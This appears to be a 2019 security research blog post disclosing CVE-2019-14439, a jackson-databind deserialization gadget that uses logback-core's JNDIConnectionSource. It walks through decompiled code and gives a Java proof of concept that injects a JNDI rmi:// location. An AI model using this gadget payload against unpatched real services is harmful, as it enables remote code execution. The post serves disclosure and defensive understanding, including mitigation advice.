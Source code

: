 ```yaml
---
layout: post
title: "Attacking Unmarshallers :: JNDI Injection using Getter Based Deserialization Gadgets"
date: 2019-08-07 10:00:00 -0500
categories: blog
---
```


I know you have pwned deserialization of untrusted data bugs before (if you haven't what the hell, they are fun!), but have you pwned an entire REST framework due to a misconfigured marshaller? In this short blog post, we will reveal some quick research that was done based upon the excellent work perform by [Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).
<!--more-->

TL;DR; *In this post, I share another gadget chain for FasterXML's jackson-databind using the common logback-core library and not requiring any other libraries. This was a bug collison with [badcode of Knownsec 404 Team](https://twitter.com/80vul/status/1156766341946232832) and marked as CVE-2019-14439.*

## Analysis

During a quick audit of the logback-core library, I found a gadget chain for the ch.qos.logback.core.db.JNDIConnectionSource class literally the same package as the DriverManagerConnectionSource class

![Next to the DriverManagerConnectionSource class](/assets/images/attacking-unmarshallers/JNDIConnectionSource.png "Next to the DriverManagerConnectionSource class")

If you want to setup your own vulnerable environment, you can grab the vulnerable libs here:

- [jackson-core-2.9.9.jar](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-core/2.9.9/jackson-core-2.9.9.jar)
- [jackson-databind-2.9.9.1.jar](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-databind/2.9.9.1/jackson-databind-2.9.9.1.jar)
- [jackson-annotations-2.9.9.jar](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-annotations/2.9.9/jackson-annotations-2.9.9.jar)
- [logback-core-1.3.0-alpha4.jar](https://repo1.maven.org/maven2/ch/qos/logback/logback-core/1.3.0-alpha4/logback-core-1.3.0-alpha4.jar)

The setter for the class looks pretty standard for `jndiLocation`

```java
/*  90 */   public void setJndiLocation(String jndiLocation) { this.jndiLocation = jndiLocation; }
```

However, we trigger the `getConnection` method via `ObjectMapper.writeValueAsString` which is used to return JSON objects back to a user via a REST endpoint, we reach the following code:

```java
/*     */   public Connection getConnection() throws SQLException {
/*  54 */     Connection conn = null;
/*     */     try {
/*  56 */       if (this.dataSource == null) {
/*  57 */         this.dataSource = lookupDataSource();         // 1
/*     */       }
```

So if the dataSource property is not set, the code calls `JNDIConnectionSource.lookupDataSource` at *[1]*

```java
/*     */   private DataSource lookupDataSource() throws NamingException, SQLException {
/*  94 */     addInfo("Looking up [" + this.jndiLocation + "] in JNDI");
/*     */     
/*  96 */     Context initialContext = new InitialContext();                    // 2
/*  97 */     Object obj = initialContext.lookup(this.jndiLocation);            // 3
/*     */ 
/*     */ 
/*     */     
/* 101 */     DataSource ds = (DataSource)obj;
/*     */     
/* 103 */     if (ds == null) {
/* 104 */       throw new SQLException("Failed to obtain data source from JNDI location " + this.jndiLocation);
/*     */     }
/* 106 */     return ds;
/*     */   }
```

At *[2]* the code gets an instance of the InitialContext class and at *[3]* the code calls `InitialContext.lookup` using the attacker controlled `jndiLocation` property. In a context dependant attack, where default typing is enabled for jackson-databind, this can result in a JNDI Injection vulnerability.

```java
import java.io.IOException;
import com.fasterxml.jackson.core.JsonParseException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonTest {
    public static void main(String[] args) throws JsonParseException, JsonMappingException, IOException {
        
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();

        StringBuilder d = new StringBuilder();
        d.append("[");
        d.append("\"ch.qos.logback.core.db.JNDIConnectionSource\"");
        d.append(",");
        d.append("{");
        d.append("\"jndiLocation\"");
        d.append(":");
        d.append("\"rmi://127.0.0.1:1097/rce\"");       // payload
        d.append("}");
        d.append("]");
 
        Object obj = objectMapper.readValue(d.toString(), java.lang.Object.class);          // trigger getters
        objectMapper.writeValueAsString(obj);                                               // trigger setters
    }
}
```

There are multiple ways to achieve remote code execution via JNDI injection on older versions of Java using either class loading or attacking the Distrubuted Garbage Collection (DGC) for deserialization of untrusted data, techniques which are all taught in [Full Stack Web Attack](/training).

## Conclusion

Getter based deserialization attacks are something to watch out for and can be mitigated by not using default typing. This is not a vulnerability to worry about since it has been patched and requires specific version of java to exploit.

It's interesting to note that the connection property doesn't exist at all in the `JNDIConnectionSource` class, even so, `getConnection` follows the Java bean convention and still gets called! FasterXML continues to block individual classes and whilst I see the reasoning behind it, it makes for a cat and mouse game between attackers and defenders and I don't think that is the right approach.

## References

- [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [https://github.com/FasterXML/jackson-databind/issues/2389](https://github.com/FasterXML/jackson-databind/issues/2389)